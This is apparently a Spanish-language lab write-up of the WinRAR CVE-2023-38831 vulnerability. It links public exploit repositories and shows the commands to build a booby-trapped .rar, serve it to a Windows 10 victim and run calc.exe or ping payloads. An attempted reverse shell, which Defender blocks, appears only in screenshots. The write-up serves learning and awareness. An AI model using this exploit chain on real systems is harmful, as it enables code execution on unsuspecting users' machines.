 ```yaml
---
title: CVE-2023-38831 - WinRAR
date: 2023-09-10
categories: [Exploit, Windows, CVE-2023-38831]
tags: []     # TAG names should always be lowercase
---
```


![20230910230314.png](20230910230314.png)

## **Introducción :** 

WinRAR sirve para acceder al contenido de archivos comprimidos y también para poder crear este tipo de archivos.

Un archivo comprimido es un archivo que en su interior puede tener uno o mas ficheros, como imagenes, documentos, programas o cualquier otro tipo de datos, que además una vez comprimidos suelen ocupar menos espacio en disco. Por esto es muy frecuente encontrase con este tipo de archivos en Internet, tanto al descargar archivos de paginas web o servidores ftp como adjuntos en los correos electrónicos (porque es más rápido y fácil enviar un solo fichero de menor tamaño que varios ficheros de mayor tamaño).

Hace poco se descubrió una vulnerabilidad en versiones anteriores a 6.23 de RARLab's WinRAR permite a los atacantes ejecutar código malicioso cuando un usuario intenta abrir un archivo aparentemente inofensivo contenido en un archivo ZIP. Este problema ocurre porque un archivo ZIP puede contener tanto un archivo inofensivo (por ejemplo, una imagen .JPG) como una carpeta con el mismo nombre que el archivo inofensivo. El contenido de la carpeta se procesa incluso cuando el usuario solo intenta acceder al archivo inofensivo. Esta vulnerabilidad fue aprovechada en ataques en vivo entre abril y agosto de 2023.

## **Explotación Vulnerabilidad :**

### Laboratorio: 

**Esquema del laboratorio**

![20230909125802.png](20230909125802.png)

### **Explotación de la vulnerabilidad**:
 
Si buscamos la vulnerabilidad en el navegador nos encontraremos con muchas que automatizan y la podemos usar.

![20230909124337.png](20230909124337.png)

Así que usaremos la primera, para poder explotarla la vulnerabilidad de WinRAR

- [https://github.com/b1tg/CVE-2023-38831-winrar-exploit](https://github.com/b1tg/CVE-2023-38831-winrar-exploit)
- [https://github.com/HDCE-inc/CVE-2023-38831](https://github.com/HDCE-inc/CVE-2023-38831)

En el repositorio ya nos indican del como funciona y que debemos hacer. Así que vamos a clonar el repositorio y ejecutar en nuestra maquina atacante.

```shell
git clone https://github.com/HDCE-inc/CVE-2023-38831
cd CVE-2023-38831
python exploit.py
```
- Ejecutamos el exploit y nos genera un fichero `.rar`, esto lo hacemos en nuestra maquina atacante, ahora lo pasaremos a la maquina victima que es un `Windows 10`

![20230909124812.png](20230909124812.png)

- Ahora, con python podemos levantar un servidor 
```python
python3 -m http.server 80
```

desde la maquina windows descargamos el archivo `.rar`

![20230909130130.png](20230909130130.png)

![20230909130319.png](20230909130319.png)
Ejecutemos

![20230909130404.png](20230909130404.png)

Al ejecutar el archivo `.rar` nos abre la calculadora

![20230909130435.png](20230909130435.png)

### ¿Cómo funciona ? Explicación
Una vez de ejecutar el exploit, es importante que entendamos el ¿como? se llega a ejecutar el exploit. 

"Se ha identificado una vulnerabilidad explotable en las versiones de RARLabs WinRAR anteriores a la 6.23. Esta vulnerabilidad permite a los atacantes ejecutar código arbitrario a través de un archivo ZIP específicamente diseñado. La vulnerabilidad surge debido al mal manejo de archivos ZIP que contienen archivos benignos, como documentos .PDF normales, junto con carpetas que comparten el mismo nombre. Cuando un usuario intenta acceder al archivo benigno, el archivo puede incluir una carpeta con un nombre similar que contenga contenido ejecutable. Este contenido malicioso dentro de la carpeta se procesa durante el intento de acceder al archivo benigno, lo que facilita la ejecución de código arbitrario. La explotación de esta vulnerabilidad se ha documentado en incidentes del mundo real ocurridos entre abril y agosto de 2023."

- Esto es lo que nos dicen los de winrar, bueno esta traducido para un mayor entendimiento.
**Estructura del archivo malicioso `.rar`**

```
┌firefox.rar
└─document.pdf
	└─document.pdf.cmd
└─document.pdf
```

Vamos a explicarlo mejor, al tener una archivo `.rar` y este contener un archivo pdf, png, word, etc y una carpeta. Al compartir el mismo nombre y al querer abrir el archivo pdf u otro que se tenga.

![20230909131337.png](20230909131337.png)

Este es procesado dentro de la carpeta, lo cual conlleva a la ejecución de código si es que hay un fichero. Esto es aprovechado por un atacante para introducir código malicioso en dicha carpeta.
![20230909131401.png](20230909131401.png)


Como vemos el archivo **`document.pdf.cmd`** contiene el siguiente script, el cual podemos cambiar para ejecutar lo que nosotros queramos

```
calc.exe
```

Luego de entender esto, podemos crearnos nuestro propio script en Python o cambiar el contenido del archivo `script.bat` y introducir el código que deseamos que se ejecute.

- Probaremos con: 

```shell
ping.exe -n 5 192.168.98.6
```

Hacemos el mismo procedimiento para copiar el `.rar` a la maquina Windows

- Iniciamos un servidor http con python3

```shell
❯ python3 -m http.server 80
```

- Descargamos en la maquina victima

![20230910231852.png](20230910231852.png)

Nos ponemos a la escuchar traza ICMP con tcpdump  
```shell
❯ sudo tcpdump -i eth0 icmp
```

- Ejecutamos

![20230910231653.png](20230910231653.png)

- Recibimos los paquetes indicando que hay conexión  y se logra ejecutar el código

![20230910232145.png](20230910232145.png)

Ahora podemos enviarnos una shell interactiva a nuestra maquina atacante.

![20230910232755.png](20230910232755.png)

oh sorpresa, que el mismo defender detecta esta amenaza y la  bloquea, esto significa que podemos estar tranquilos o no?

![20230910232919.png](20230910232919.png)

El hecho de que el defender lo detectar no quiere decir que debes dejar la preocupación de lado, siempre ten cuidado de que archivos descargar, cual es su procedencia. Mantente informado de las vulnerabilidades que salen y si este afecta los dispositivos o aplicaciones que usas, para evitar ser una victima mas de los ciberdelincuentes. 

## **Referencias:** 

- [https://github.com/b1tg/CVE-2023-38831-winrar-exploit](https://github.com/b1tg/CVE-2023-38831-winrar-exploit)
- [https://b1tg.github.io/post/cve-2023-38831-winrar-analysis/](https://b1tg.github.io/post/cve-2023-38831-winrar-analysis/)
- [https://github.com/MortySecurity/CVE-2023-38831-Exploit-and-Detection/tree/main](https://github.com/MortySecurity/CVE-2023-38831-Exploit-and-Detection/tree/main)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-38831](https://nvd.nist.gov/vuln/detail/CVE-2023-38831)